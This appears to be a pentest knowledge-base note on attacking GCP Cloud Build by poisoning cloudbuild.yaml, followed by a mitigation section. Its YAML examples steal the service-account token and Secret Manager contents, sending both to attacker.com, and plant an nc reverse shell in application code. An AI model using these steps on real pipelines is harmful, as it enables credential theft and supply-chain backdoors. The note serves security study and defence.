

# GCP Cloud Build CI/CD Poisoning

## Introduction to GCP Cloud Build

Google Cloud Build is a managed continuous integration, delivery, and deployment (CI/CD) service that executes builds on Google Cloud infrastructure. It allows developers to compile source code, run tests, and produce software artifacts (like Docker containers or Java archives) which can then be deployed to services like Google Kubernetes Engine (GKE), Cloud Run, or App Engine.

From a red teaming and VAPT perspective, CI/CD pipelines represent the "factory floor" of the software supply chain. Compromising the CI/CD pipeline means you can inject malicious code into the final product, extract sensitive deployment secrets, and leverage the pipeline's execution environment to pivot laterally within the cloud environment. Cloud Build is a highly lucrative target because it requires elevated permissions to deploy infrastructure and interact with other GCP services.

---

## The Core Vulnerability: Default Service Account Privileges

Historically, the most critical security flaw in GCP Cloud Build environments stems from its default service account configuration.

When you enable the Cloud Build API, GCP automatically creates a default service account in the format:
`[PROJECT_NUMBER]@cloudbuild.gserviceaccount.com`

**Crucially, this default service account was traditionally granted extremely broad permissions, often functionally equivalent to a Project Editor.** It typically possessed the ability to:
*   Read and write to Google Cloud Storage (GCS).
*   Interact with Google Kubernetes Engine (GKE) clusters.
*   Deploy applications to App Engine and Cloud Run.
*   Read secrets from Google Secret Manager.
*   Invoke Cloud Functions.

If an attacker can force Cloud Build to execute arbitrary commands, they execute those commands within the context of this highly privileged service account.

---

## The Attack Flow



---

## Execution: Poisoning `cloudbuild.yaml`

Cloud Build relies on a configuration file, typically named `cloudbuild.yaml` (or `cloudbuild.json`), residing in the root of the source code repository. This file defines a series of "build steps." Each build step is executed in a Docker container.

### Scenario 1: Malicious Pull Request (Untrusted Code Execution)

If Cloud Build triggers are configured to run automatically on Pull Requests (PRs) without requiring manual approval from a maintainer, an external attacker can submit a PR containing a poisoned `cloudbuild.yaml`.

The attacker modifies the `cloudbuild.yaml` to include a build step that exfiltrates the underlying service account's token.

**Poisoned `cloudbuild.yaml`:**
```yaml
steps:
  # The legitimate build steps might remain to avoid suspicion
  - name: 'gcr.io/cloud-builders/npm'
    args: ['install']
    
  # The attacker injects a malicious step using a basic ubuntu container
  - name: 'ubuntu'
    entrypoint: 'bash'
    args:
      - '-c'
      - |
        echo "Exfiltrating environment..."
        # Extract the OAuth token of the Cloud Build Service Account from the metadata server
        TOKEN=$(curl -s -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" | grep -oP '"access_token":"\K[^"]+')
        # Send the token to the attacker's server
        curl -X POST -H "Content-Type: application/json" -d "{\"token\":\"$TOKEN\"}" https://attacker.com/exfil
        
        # Alternatively, execute gcloud commands directly within the build step
        gcloud auth list
        gcloud projects get-iam-policy $PROJECT_ID
```

When the PR is created, Cloud Build automatically executes this pipeline. The attacker's server receives the access token, which they can then use from their local machine to interact with the GCP environment as the `@cloudbuild.gserviceaccount.com` service account.

### Scenario 2: Secret Extraction

CI/CD pipelines frequently need access to secrets (API keys, database passwords, private keys) to deploy applications. In GCP, these are usually stored in Google Secret Manager and injected into the build.

If an attacker gains code execution within the build pipeline, they can systematically extract these secrets.

```yaml
steps:
  - name: 'gcr.io/google.com/cloudsdktool/cloud-sdk'
    entrypoint: 'bash'
    args:
      - '-c'
      - |
        # List all secrets in Secret Manager
        gcloud secrets list --format="value(name)" > secrets.txt
        
        # Loop through each secret and access the latest payload
        while read secret; do
          echo "Stealing $secret"
          gcloud secrets versions access latest --secret="$secret" >> all_secrets_dump.txt
        done < secrets.txt
        
        # Exfiltrate the dump
        curl -F "file=@all_secrets_dump.txt" https://attacker.com/upload
```

### Scenario 3: Supply Chain Injection (Artifact Poisoning)

Instead of simply stealing credentials, a sophisticated attacker might want to establish long-term persistence by modifying the software artifacts produced by the pipeline.

If the pipeline builds a Docker image and pushes it to Google Container Registry (GCR) or Artifact Registry (AR), the attacker can modify the `Dockerfile` or inject malicious code during the build step.

```yaml
steps:
  - name: 'ubuntu'
    entrypoint: 'bash'
    args:
      - '-c'
      - |
        # Inject a malicious reverse shell payload into the main application code
        echo 'import os; os.system("nc -e /bin/bash attacker.com 4444 &")' >> src/main.py
        
  # The rest of the pipeline naturally builds and deploys the backdoored application
  - name: 'gcr.io/cloud-builders/docker'
    args: ['build', '-t', 'gcr.io/$PROJECT_ID/my-app', '.']
  - name: 'gcr.io/cloud-builders/docker'
    args: ['push', 'gcr.io/$PROJECT_ID/my-app']
```

When the pipeline completes, the legitimate deployment mechanisms will deploy the backdoored application to production.

---

## Advanced Tactics: Bypassing VPC Service Controls (VPC SC)

In mature environments, VPC Service Controls might restrict outbound traffic from Cloud Build, preventing simple `curl` exfiltration to `attacker.com`.

**Evasion Techniques:**
1.  **Exfiltration via GCP Services:** If VPC SC allows access to certain Google APIs, the attacker can exfiltrate data by writing it to an attacker-controlled GCP resource. For example, creating a Cloud DNS TXT record in an attacker-controlled zone, or writing to an attacker-controlled GCS bucket if the VPC SC perimeter allows egress to arbitrary buckets (often a misconfiguration).
2.  **Blind Execution:** The attacker performs destructive actions or modifies infrastructure directly via `gcloud` commands without needing to exfiltrate the token first, relying entirely on the build logs (if accessible) to verify success.

---

## Defensive Strategies and Mitigation

Securing Cloud Build requires strict adherence to the Principle of Least Privilege and robust CI/CD security practices.

1.  **Use Custom Service Accounts:** Never use the default `@cloudbuild.gserviceaccount.com` account. Create dedicated, custom service accounts for each specific build trigger.
2.  **Principle of Least Privilege:** Grant the custom service account *only* the specific IAM roles required for that pipeline. If a pipeline only builds a Docker image, it does not need permissions to interact with GKE or App Engine.
3.  **Require Manual Approval:** For open-source projects or repositories where untrusted users can submit PRs, configure Cloud Build triggers to require explicit manual approval from an administrator before executing.
4.  **Isolate Build Environments:** Utilize Cloud Build Private Pools. Private pools execute builds within an isolated VPC network, allowing administrators to enforce strict egress firewall rules to prevent data exfiltration.
5.  **Artifact Signatures:** Implement Binary Authorization to ensure that only images signed by trusted authorities (which verify the integrity of the build process) can be deployed to GKE.

---

## Chaining Opportunities
- **[[14 - Lateral Movement across GCP Projects]]:** Service accounts utilized by Cloud Build often have deployment rights in staging or production projects, providing a direct pivot from the dev environment.
- **[[12 - Privilege Escalation via GCP Deployment Manager]]:** A poisoned Cloud Build pipeline can execute `gcloud deployment-manager` commands to exploit IaC vulnerabilities.

## Related Notes
- [[04 - Abusing Google Compute Engine Metadata]]
- [[09 - CI/CD Pipeline Attacks Overview]]
- [[15 - GCPBuster and GCP Pentesting Workflows]]
